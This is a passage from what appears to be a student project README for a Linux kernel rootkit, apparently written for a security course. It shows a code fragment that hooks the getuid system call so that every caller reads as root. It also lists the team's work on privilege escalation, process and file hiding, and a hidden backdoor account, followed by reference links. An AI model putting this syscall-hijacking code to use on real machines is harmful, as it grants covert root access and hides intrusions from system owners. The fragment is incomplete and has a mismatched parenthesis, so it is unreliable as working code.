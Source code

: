       if ((retval = sctm_hook(&modifier, &hook)) {
        sctm_cleanup(&modifier); /* ignore failure */
        return retval;
      }
      
      /* all `getuid` callers will now believe they're root */
      
      return 0;
    }

    asmlinkage unsigned long lie(void) {
      return 0;
      
      /*
      if we wanted to defer to the original instead,
      we could use something like this:
        `return ((asmlinkage unsigned long (*)(void)) hook.original)();`
      */
    }
    
    module_exit(exit_module)
    module_init(init_module)
    
    MODULE_LICENSE("GPL");

## Distribution of work
- Driver, client communication with modules, hooking custom system calls, and consolidation of all functional modules - Bailey Defino
- Process privlege escalation - Bryan Valarezo
- Process hiding and file hiding - Jeffrey Wong
- Backdoor account/hiding users from /etc/shadow and /etc/passwd - Junming Liu

## Sources
Helpful resources used during the development of this project

1. https://blog.trailofbits.com/2019/01/17/how-to-write-a-rootkit-without-really-trying/
2. https://davejingtian.org/2019/02/25/syscall-hijacking-in-2019/
3. https://www.kernel.org/doc/Documentation/security/credentials.txt
4. https://github.com/torvalds/linux/blob/master/include/linux/sched.h
5. http://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html
6. https://www.kernel.org/doc/html/latest/media/uapi/v4l/io.html
7. https://mammon.github.io/Text/kernel\_read.txt
8. https://stackoverflow.com/questions/1184274/read-write-files-within-a-linux-kernel-module
9. https://elixir.bootlin.com/
10. http://man7.org/linux/man-pages/man2/getdents.2.html
11. https://stackoverflow.com/questions/2103315/linux-kernel-system-call-hooking-example
12. https://docs.huihoo.com/doxygen/linux/kernel/3.7/structdentry.html
13. http://tuxthink.blogspot.com/2012/07/module-to-find-task-from-its-pid.html
14. https://ccsl.carleton.ca/~dmccarney/COMP4108/a2.html
15. https://stackoverflow.com/questions/8250078/how-can-i-get-a-filename-from-a-file-descriptor-inside-a-kernel-module

## License
Copyright 2019. By collaborators
[Bailey Defino](https://bdefino.github.io), [Bryan Valarezo](https://bvalarezo.github.io), [Jeffrey Wong](https://jeffrewong.github.io), [Junming Liu](https://junmingl.github.io)
